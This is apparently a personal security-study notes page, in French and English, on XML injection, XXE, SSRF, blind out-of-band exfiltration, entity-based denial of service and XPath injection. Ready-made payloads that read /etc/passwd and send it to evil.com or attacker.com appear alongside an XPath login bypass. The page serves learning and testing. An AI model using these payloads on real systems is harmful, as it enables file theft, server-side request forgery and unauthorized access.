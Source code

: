 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajoutés en tant que nœud dans un doc xml :

* We can inject malformed string to break the parser
* On peut modifier les informations enregistrées. Par exemple si notre input consiste en notre nom et que l'app rajoute ensuite automatiquement un champ pour nos droits, on peut fabriquer notre input de force à commenter la partie générée par l'appli et à la place mettre la notre \(owasp testing guide 4 page 138 pour un exemple\).
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected

```text
<html>
 <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
script<![CDATA[>]]>
 </html>
<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

Si le site nous renvoi directement ce qui a été parsé, on peut envoyer ce genre de fichier :

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

On peut faire n'importe quelle requête _au nom du serveur_ en lui faisant suivre un lien pour load un DTD externe :

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

Pour "exfilter" les données au cas où elles ne nous sont pas montrées, on peut forcer le serveur à faire une requête vers notre serveur avec dans le lien les données.

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % end "]]>">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
    %wrapper;
```

### DDOS

By doing this kind of request we can DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

See also "A Billion Laugh" attack

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

## XPath Injection

Elles suivent la même logique que les injections SQL.

Exemple :

Cette requête récupère le compte correspondant à "gandalf" avec le mdp "!3c" `string(//user[username/text()=’gandalf’ and password/text()=’!c3’]/account/text())`

En insérant ces valeurs :

* Username: ‘ or ‘1’ = ‘1
* Password: ‘ or ‘1’ = ‘1 

Elle deviendrait cela :

`string(//user[username/text()=’’ or ‘1’ = ‘1’ and password/text()=’’ or ‘1’ = ‘1’]/account/text())`

Nous permettant de nous authentifier systématiquement.

J'imagine que le même genre de chose est possible avec XQuery.

## Source

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research

